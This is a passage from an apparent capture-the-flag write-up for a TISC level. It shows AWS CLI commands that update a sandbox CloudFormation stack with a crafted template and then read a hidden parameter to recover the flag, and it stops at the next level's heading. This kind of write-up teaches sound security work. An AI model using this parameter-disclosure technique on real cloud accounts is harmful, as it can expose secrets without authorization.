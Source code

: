 ```yaml
    Properties:
      BucketName: !Sub app-data-sandbox-bucket
```

```shell
aws cloudformation update-stack \
  --stack-name pawxy-sandbox-83dbf0fb \
  --template-body file://reveal-flagpt2-template.yaml \
  --parameters ParameterKey=flagpt2,UsePreviousValue=true \
  --capabilities CAPABILITY_IAM \
  --disable-rollback \
  --region ap-southeast-1
```

Now to obtain the flag.
```shell
aws cloudformation describe-stacks \
  --stack-name pawxy-sandbox-83dbf0fb \
  --region ap-southeast-1 \
  --query 'Stacks[0].[StackStatus,StackStatusReason,Parameters]' \
  --output json
```
```json
[
    "UPDATE_FAILED",
    "The following resource(s) failed to create: [AppDataStore]. ",
    [
        {
            "ParameterKey": "flagpt2",
            "ParameterValue": "_c47_4S7r0PHiC_fL4w5}"
        }
    ]
]
```

Thus, completing the challenge (finally).

### Flag

```
TISC{iMPURrf3C7_sSRFic473_Si73_4nd_c47_4S7r0PHiC_fL4w5}
```

---

## LEVEL 8A - VirusVault

### Description

Welcome to the VirusVault, the most secure way to store dangerous viruses.  
Surely nothing can go wrong storing them this way!

### Solution
